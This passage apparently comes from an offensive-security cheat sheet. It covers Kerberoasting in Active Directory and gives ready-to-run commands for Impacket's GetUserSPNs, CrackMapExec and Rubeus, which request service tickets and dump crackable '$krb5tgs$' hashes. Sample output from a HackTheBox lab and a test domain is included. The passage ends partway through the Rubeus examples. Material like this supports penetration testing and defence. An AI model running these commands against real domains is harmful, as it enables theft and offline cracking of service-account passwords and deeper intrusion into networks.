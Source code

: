 ## Kerberoasting

> "A service principal name (SPN) is a unique identifier of a service instance. SPNs are used by Kerberos authentication to associate a service instance with a service logon account. " - [MSDN](https://docs.microsoft.com/fr-fr/windows/desktop/AD/service-principal-names)

Any valid domain user can request a kerberos ticket (ST) for any domain service. Once the ticket is received, password cracking can be done offline on the ticket to attempt to break the password for whatever user the service is running as.

- [GetUserSPNs](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) from Impacket Suite
    
    ```powershell
    $ GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
    
    Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies
    
    ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet      LastLogon           
    --------------------  -------------  --------------------------------------------------------  -------------------  -------------------
    active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 21:06:40  2018-12-03 17:11:11 
    
    $krb5tgs$23$*Administrator$ACTIVE.HTB$active/CIFS~445*$424338c0a3c3af43[...]84fd2
    ```
    
- CrackMapExec Module
    
    ```powershell
    $ crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --kerberoast output.txt
    LDAP        10.0.2.11       389    dc01           [*] Windows 10.0 Build 17763 x64 (name:dc01) (domain:lab.local) (signing:True) (SMBv1:False)
    LDAP        10.0.2.11       389    dc01           $krb5tgs$23$*john.doe$lab.local$MSSQLSvc/dc01.lab.local~1433*$efea32[...]49a5e82$b28fc61[...]f800f6dcd259ea1fca8f9
    ```
    
- [Rubeus](https://github.com/GhostPack/Rubeus)
    
    ```powershell
    # Stats
    Rubeus.exe kerberoast /stats
    -------------------------------------   ----------------------------------
    | Supported Encryption Type | Count |  | Password Last Set Year | Count |
    -------------------------------------  ----------------------------------
    | RC4_HMAC_DEFAULT          | 1     |  | 2021                   | 1     |
    -------------------------------------  ----------------------------------
    
    # Kerberoast (RC4 ticket)
    Rubeus.exe kerberoast /creduser:DOMAIN\JOHN /credpassword:MyP@ssW0RD /outfile:hash.txt
    